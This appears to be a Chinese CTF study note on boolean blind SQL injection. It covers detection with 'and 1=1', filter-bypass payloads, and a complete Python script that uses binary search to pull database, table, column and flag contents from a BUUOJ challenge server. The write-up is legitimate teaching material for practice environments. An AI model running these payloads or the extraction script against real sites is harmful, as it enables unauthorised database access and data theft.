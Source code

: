 ### 3）布尔盲注

> ## ***\*1.1、原理：\****
>
> Bool盲注通常是由于开发者将报错信息屏蔽而导致的，但是网页中真和假有着不同的回显，比如为真时返回access，为假时返回false；或者为真时返回正常页面，为假时跳转到错误页面等。不需要返回结果，仅判断语句是否正常执行



> ## 1.2、判断：
>
> Bool盲注中通常会配套使用一些判断真假的语句来进行判定。常用的发现Bool盲注的方法是在输入点后面添加and 1=1和and 1=2（该Payload应在怀疑是整型注入的情况下使用）。
>
> ------
>
> 如果题目后端拼接了SQL语句，and 1=1为真时不会影响执行结果，但是and 1=2为假，页面则可能会没有正常的回显。

> ## 1.3、绕过：
>
> 有时候我们可能会遇到将1=1过滤掉的SQL注入点，这时候我们可以通过修改关键字来绕过过滤，比如将关键字修改为不常见的数值（如1352=1352等）。
>
> ------
>
> 在字符串型注入的时候我们还需要绕过单引号，将Payload修改为如下格式'and'1'='1和'or'1'='2来闭合单引号（第一个引号闭合原句中引号，原句中后面的引号拼接到语句中了）

脚本：

```python
import requests
import time

url = "http://e7ddd70b-0bce-40fb-b172-42bb976aeb7a.node4.buuoj.cn:81"
temp = {"stunum": ""}
column = ""
for i in range(1, 1000):
    time.sleep(0.6)
    low = 32
    high = 128
    mid = (low + high) // 2
    while (low < high):
        # 库名
        # temp["stunum"] = "1^(ascii(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1" %(i,mid)
        # 表名
        # temp["stunum"] = "1^(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),%d,1))>%d)^1" %(i,mid)
        # 字段名
        # temp["stunum"] = "1^(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),%d,1))>%d)^1" %(i,mid)
        # 内容
        temp["stunum"] = "1^(ascii(substr((select(group_concat(flag,value))from(flag)),%d,1))>%d)^1" % (i, mid)
        r = requests.get(url, params=temp)
        time.sleep(0.4)
        print(low, high, mid, ":")
        if "Hi" in r.text:
            low = mid + 1
        else:
            high = mid
        mid = (low + high) // 2
    if (mid == 32 or mid == 127):
        break
    column += chr(mid)
    print(column)

print("All:", column)
```